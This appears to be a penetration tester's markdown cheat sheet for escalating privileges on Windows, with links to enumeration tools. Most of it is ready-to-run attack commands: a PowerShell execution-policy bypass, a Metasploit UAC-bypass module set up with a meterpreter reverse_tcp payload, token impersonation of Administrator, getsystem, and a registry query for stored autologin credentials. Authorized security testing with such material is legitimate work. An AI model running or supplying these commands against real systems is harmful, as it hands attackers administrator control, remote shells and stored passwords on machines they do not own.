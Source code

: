 # Privilege Escalation Windows
#### Automated tools
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
* [Sherlock](https://github.com/rasta-mouse/Sherlock)
* [Watson](https://github.com/rasta-mouse/Watson)
* [JAWS](https://github.com/411Hall/JAWS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
#### Enumerate with Privescheck
* [Privescheck](https://github.com/itm4n/PrivescCheck)
````bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
````
#### UAC Bypass (Metasploit)
````bash
use exploit/windows/local/bypassuac_injection
set session 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
````
#### Token Impersonation
````bash
# load plugin
load incognito

# List tokens
list_tokens -u

# Impersonate
impersonate_token admin\\Administrator
````
#### Windows autologin
````bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
````
#### Meterpreter (Metasploit)
````bash
getsystem
````
#### Registry
````bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
````
